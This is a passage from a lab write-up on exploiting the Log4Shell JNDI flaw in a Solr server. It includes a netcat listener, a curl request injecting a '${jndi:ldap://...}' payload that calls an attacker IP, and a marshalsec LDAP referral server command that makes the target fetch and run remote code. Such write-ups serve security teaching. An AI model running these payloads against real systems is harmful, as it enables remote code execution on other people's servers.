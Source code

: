 Then, we prepared a listener on port 9999 to capture the connection initiated by the target machine. The command used was:

```sh
$ nc -lnvp 9999
```

Using the `curl` command, we sent the payload to the vulnerable endpoint with the following command:

```sh
curl 'http://10.10.182.193:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.244.181:9999\}'
```

On the Netcat listener, we confirmed receiving a connection from the target machine, indicating that the payload was executed, and the vulnerability was exploited:

![Task 4.2](./img/Lab5/Task4.2.png)
![Task 4.3](./img/Lab5/Task4.3.png)

## Task 5 - Exploitation

In the previous task, by viewing the connection in the `netcat` listener, the target was found to be vulnerable. But, it made an LDAP request, so what the listener saw were indecipherable characters. The task is to build a way to respond with a real LDAP handler.
To carry out this task, we used an open-source and public utility to create an “LDAP Referral Server”.
This makes it possible to redirect the victim's initial request to another server, where there will be a payload that will later execute code on the target.
Here's a brief explanation of how it will work:
- `${jndi:ldap://attackerserver:1389/Resource}` - reaches the LDAP reference server created
- The LDAP reference server sends the request to a secondary server `http://attackerserver/resource`
- The victim retrieves and runs the code in the `http://attackerserver/resource`

In other words, an HTTP server had to be created for this task.

### Steps of the task
First of all, it was necessary to obtain the LDPAP Referral Server through the `marshalsec` utility.

Once marshalsec has been installed, it was possible to start the LDAP referral server to direct connections to the secondary HTTP server. The command to start the LDAP server is as follows: `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.244.181:8000/#Exploit"`
